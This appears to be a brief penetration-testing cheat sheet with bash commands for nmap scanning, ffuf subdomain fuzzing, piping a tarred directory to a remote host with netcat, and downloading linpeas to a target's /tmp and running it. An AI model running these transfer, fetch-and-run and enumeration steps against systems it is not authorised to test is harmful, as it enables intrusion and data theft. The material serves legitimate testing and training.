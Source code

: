 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 5000 -oN nmap_output.txt <host>
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://<host> -H "Host: FUZZ.<host>" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc <host> 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget <host>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
